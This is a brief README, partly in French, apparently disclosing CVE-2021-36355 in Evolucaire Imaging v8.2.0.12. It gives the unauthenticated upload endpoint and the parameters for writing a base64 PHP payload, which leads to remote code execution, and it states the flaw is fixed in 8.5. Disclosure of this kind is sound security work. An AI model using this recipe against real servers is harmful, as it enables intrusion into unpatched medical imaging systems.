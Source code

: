 # evolucaire

- evolucaire imaging v8.2.0.12 
 - unrestricted file upload & RCE
 - fixé en version 8.5

- upload unauthenticated sur : 
  - /php/etmi/save-uploaded-filedrag.php
    - data=data:text/plain;base64,<payload_b64>
    - name=phpinfo.php
    - base_directory=doc/temp
    - base_name=pdfdoc

- statut : CVE id affected : CVE-2021-36355

- run :

![](./run.png)

![](./run2.png)

- Support answer, the vuln is fixed in 8.5.0
